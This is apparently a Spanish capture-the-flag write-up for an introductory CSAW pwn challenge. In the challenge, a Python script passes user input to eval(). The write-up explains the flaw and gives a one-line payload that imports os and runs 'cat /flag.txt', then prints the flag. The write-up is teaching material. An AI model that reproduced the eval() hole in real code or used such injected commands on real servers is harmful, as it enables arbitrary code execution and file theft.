

# Enunciado



# Resolución

El código es el siguiente:
```
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```

Se pide obtener el contenido del archivo /flag.txt para demostrar que puedes hacerlo.

La vulnerabilidad aquí está en el uso de la función eval() de Python, que evalúa una cadena de texto como si fuera código Python. Esto es peligroso y una mala práctica porque un atacante podría ingresar comandos arbitrarios para que sean ejecutados por el servidor.

Para explotar esta vulnerabilidad, se puede intentar ingresar algo que no sea una contraseña, pero sí un comando Python. Por ejemplo:
```
__import__('os').system('cat /flag.txt')
```
Para ejecutar el comando del sistema cat /flag.txt, que mostraría el contenido del archivo /flag.txt:


Siendo la flag:

**csawctf{neigh______}**

 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 
 


